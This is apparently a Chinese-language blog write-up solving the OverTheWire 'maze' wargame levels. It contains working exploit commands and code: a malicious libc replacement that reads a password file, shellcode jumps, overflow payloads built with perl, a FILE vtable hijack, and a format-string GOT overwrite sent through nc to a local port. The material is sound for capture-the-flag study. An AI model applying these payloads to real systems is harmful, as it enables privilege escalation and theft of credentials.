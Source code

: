 ```yaml
---
title: maze
author: rk700
layout: post
redirect_from: /writeup/2014/07/14/maze
tags:
  - OverTheWire
  - exploit
---
```

*  **maze0**  
race condition，以前做过，于是懒得再弄了

*  **maze1**  
`ldd`检查发现会加载当前目录下的`libc.so.4`。于是我们写一个文件 


{% highlight c %}
int __libc_start_main() {
    int fd = open("/etc/maze_pass/maze2", 0);
    char buf[64];
    int numRead = read(fd, buf, sizeof buf);
    buf[numRead] = 0;
    write(1, buf, numRead);
    return 0;
}
{% endhighlight %}
    

这里的输入输出没有用libc里的fopen，printf等，因为没有加载正确的libc.so
    
将该文件编译成动态库：
    
<pre>$ gcc --shared -fPIC 1.c -o libc.so.4</pre>
    
再运行程序，就会调用我们提供的start_main

*   **maze2**  
把payload提供为argv即可。调用时会执行我们提供的argv[1]的内容；由于最多只能复制8个字符，所以把shellcode放环境变量，然后跳到那里： 

{% highlight nasm %}
BITS 32
mov eax, 0xffffd8d8
jmp eax
{% endhighlight %}
        
正好7个字符，然后执行
        
<pre>$ /maze/maze2 `perl -e 'print "\xb8\xd8\xd8\xff\xff\xff\xe0"'`</pre>
        
*   **maze3**  
    只有个_start，估计是纯手写的汇编。 
    关于linux下main函数的启动，<http://tldp.org/LDP/LGNET/84/hawk.html>有一篇文章。于是可以知道，进入\_start之后，栈顶由高到底依次为：argc, &argv[0], &argv[1], &argv[2],&#8230;。而\_start一般来说会执行 
            
{% highlight objdump %}
 080482d0 <_start>:
 80482d0:       31 ed                   xor    %ebp,%ebp
 80482d2:       5e                      pop    %esi
 80482d3:       89 e1                   mov    %esp,%ecx
...
 80482e5:       51                      push   %ecx
 80482e6:       56                      push   %esi
{% endhighlight %}
            

这里就把argv和argv推到栈上了。

对于我们的程序，首先取出argc,看减1后是否为0，如果是的话退出。

然后调用了mprotect，是修改内存属性，7的话应该是rwx，于是我们接下来可以修改指令部分了。接着是把44bytes指令取出(ecx=0x2c)，与0x12345678做XOR，再保存回原来的地方(edi=edi=d1)，接着就执行这一部分的内容。全部XOR之后，将要执行的代码变成：
            

{% highlight objdump %}
=> 0x80480cb <d1>:      pop    %eax
   0x80480cc <d1+1>:    cmpl   $0x1337c0de,(%eax)
   0x80480d2 <d1+7>:    jne    0x80480ed <d1+34>
   0x80480d4 <d1+9>:    xor    %eax,%eax
   0x80480d6 <d1+11>:   push   %eax
   0x80480d7 <d1+12>:   push   $0x68732f2f
   0x80480dc <d1+17>:   push   $0x6e69622f
   0x80480e1 <d1+22>:   mov    %esp,%ebx
   0x80480e3 <d1+24>:   push   %eax
   0x80480e4 <d1+25>:   push   %ebx
   0x80480e5 <d1+26>:   mov    %esp,%ecx
   0x80480e7 <d1+28>:   xor    %edx,%edx
   0x80480e9 <d1+30>:   mov    $0xb,%al
   0x80480eb <d1+32>:   int    $0x80
   0x80480ed <d1+34>:   mov    $0x1,%eax
   0x80480f2 <d1+39>:   xor    %ebx,%ebx
   0x80480f4 <d1+41>:   inc    %ebx
   0x80480f5 <d1+42>:   int    $0x80
{% endhighlight %}
            
由于之前有pop了一次，所以这里是把argv[1]和0x1337c0de比较，相等的话就有shell了。于是执行
            
<pre>$ /maze/maze3 `perl -e 'print "\xde\xc0\x37\x13"'`</pre>
            
多说一句，1337这个数经常见到，因为是<http://en.wikipedia.org/wiki/Leet>
*   **maze4**  
这里会检查提供的文件，如果符合要求则执行。具体检查如下： 


{% highlight c %}
...
        Elf32_Ehdr ehdr;
        Elf32_Phdr phdr;
        struct stat st;
...

        /* read Elf-header */
        read(fd,&ehdr,sizeof(Elf32_Ehdr));

        /* read Program-header */
        lseek(fd,ehdr.e_phoff,SEEK_SET);
        read(fd,&phdr,sizeof(Elf32_Phdr));

        /* check */
        if(phdr.p_paddr == (ehdr.e_ident[EI_OSABI]*ehdr.e_ident[EI_ABIVERSION]) &&
           st.st_size < 120) {
                printf("valid file, executing\n");
                execv(argv[1],NULL);
        }
{% endhighlight %}
                
而如果提供ELF文件，那么p_paddr在0x08040000之后，但两个bytes相乘不太可能等于那么大的数。

但如果是脚本文件，就不用那么费事了。 

<pre>$ perl -e 'print "#!/bin/sh\ncat maze5\n#" . "-"x7 . "\x14\x00\x00\x00" . "\xb8\x2e\x00\x00"' > overthewire/maze/maze4.sh</pre>
                
两个相乘的bytes在0x7、0x8处，是s和h。program header在0x1c，我们把那里写成0x14。这样再找p_paddr就会在0x14+0xc=0x20，那里写成乘积0x2eb8。这样就符合要求了。
                
为了省事儿，我把密码文件链接到当前目录下面了。而且用sh而不是bash，因为setuid的问题。
                
*   **maze5**  
检查用户名和密码，都是8bytes，而且password[i]=&#8217;printlol&#8217;[i]-(username[i]-65)-2*i。这样我们如果提交username为A?=;9753，那么-2i被抵消，密码还是printlol

*   **maze6**  
这里可以覆盖FILE指针地址，也就是说可以使用我们提供的FILE结构。其定义在文件libio.h中，名字是\_IO\_FILE。 

<http://www.ouah.org/fsp-overflows.txt>有一篇参考文章。
                    
fprintf最终会调用vfprintf。参考FILE的定义，开始处有一些指针，我们把那里都写成jump table的地址。然后
                    
{% highlight objdump %}
...
   0xf7e6467d <vfprintf+29>:    mov    0x8(%ebp),%esi
...
   0xf7e64798 <vfprintf+312>:   movsbl 0x46(%esi),%eax
   0xf7e6479c <vfprintf+316>:   sub    0xc(%ebp),%edi
   0xf7e6479f <vfprintf+319>:   mov    0x94(%esi,%eax,1),%eax
...
   0xf7e647ba <vfprintf+346>:   call   *0x1c(%eax)
{% endhighlight %}
                    
可以看到，FILE的地址放在了esi,esi+0x46处的signed char被取出。参考定义这个是signed char \_vtable\_offset；然后此offset加上0x94得到table的地址；最后0x1c加table地址被调用。
                    
于是，我们把第0x46处写成8,接下来作为jump table的内容，存的全是SHELLCODE的地址。 
                    
<pre>$ ./maze6 1 `perl -e 'print "\x2a\xf2\xd5\xd5"x17 . "\x2e\x2e\x22\x2e" . "\x7e\xf3\xd5\xd5"x22 . "\xf7\xf6\xd5\xd5"x24 . "\x96\xf2\xd5\xd5"'`</pre>
                    
*   **maze7**  
首先读取起始的0x34=52个bytes，并从中获取参数，传给函数print_shdrs；然后在这个函数中的`read(fd,&v5,nbytes)`处可以向下覆盖至返回地址，由于这次的读文件还需要保持堆上的地址，所以我们再放72bytes在文件的后面。 

要注意的是，向下覆盖时会重写ptr和buf的值。为了后面的free不出错，我们用gdb获得这两个堆上的地址，然后放到文件相应的地方；此外，在printf中会打印一个字符串，我们最好保证地址不要越界，也就是v5不要超过ptr的长度。
                        
<pre>$ perl -e 'print "A"x32 . "\x34\x00\x00\x00" . "A"x10 . "\x48\x00" . "\x01\x00" . "\x00\x00" . "\x00"x20 . "\x10\x00\x00\x00" . "\x00"x16 . "\x38\xa0\x04\x08" . "AAAA" . "\x08\xa0\x04\x08" . "\x02\x00\x00\x00" . "A"x8 . "ebp-" . "\x05\xd9\xff\xff"' > f
$ /maze/maze7 f</pre>
                        
*   **maze8**  
会监听1337端口。另外，snprintf存在format string。我们选择修改send的got地址，这需要同时联两个到ssh上面，一个把shellcode放到环境变量并启动maze8，另一个发送我们构造的内容： 
<pre>$ perl -e 'print "\x78\x9d\x04\x08" . "\x79\x9d\x04\x08" . "\x7a\x9d\x04\x08" . "\x7b\x9d\x04\x08" . "%245x%11\$hhn" . "%212x%12\$hhn" . "%38x%13\$hhn" . "%14\$hhn"' | nc 127.0.0.1 1337</pre>
                            
这样maze8那边就得到shell
